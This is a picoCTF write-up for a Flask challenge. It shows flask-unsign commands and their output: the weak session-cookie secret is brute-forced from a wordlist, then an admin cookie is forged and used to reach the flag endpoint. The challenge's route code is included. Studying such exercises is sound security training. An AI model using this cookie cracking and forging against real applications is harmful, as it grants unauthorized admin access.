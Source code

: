 # Flask Weak JWT 

picoCTF challenge 

A flask application had maintained a fixed list of cookies but `admin` was not part of it. JWT was used for authorization. So, the challenge was to modify the JWT to change its payload to `admin`.

**flask-unsign** was used to brute force the JWT to get the secret key

```bash
 $ flask-unsign --wordlist /usr/share/WordLists/rockyou.txt --unsign --cookie 'eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.Znoclg.C7RWGy9ySX7QTfPFZgBOMlPUSYU' --no-literal-eval
[*] Session decodes to: {'very_auth': 'blank'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 6272 attempts
b'fortune'

```

secret code was  `fortune`

Again modified the JWT payload using the same tool

```bash
$ flask-unsign --sign --cookie '{"very_auth":"admin"}' --secret 'fortune'             
eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.ZnojOw.sH-UEhUiqjnjvOdtfX7Wv5X2nAA
```

used the obtained JWT signed token and made request to /display endpoint to get the flag

```py
@app.route("/display", methods=["GET"])
# goal is to set very_auth=admin
def flag():
	if session.get("very_auth"):
		check = session["very_auth"]
		if check == "admin":
			resp = make_response(render_template("flag.html", value=flag_value, title=title))
			return resp
		flash("That is a cookie! Not very special though...", "success")
		return render_template("not-flag.html", title=title, cookie_name=session["very_auth"])
	else:
		resp = make_response(redirect("/"))
		session["very_auth"] = "blank"
		return resp


```



## References

- https://stackoverflow.com/questions/77340063/flask-session-cookie-tampering
- https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/flask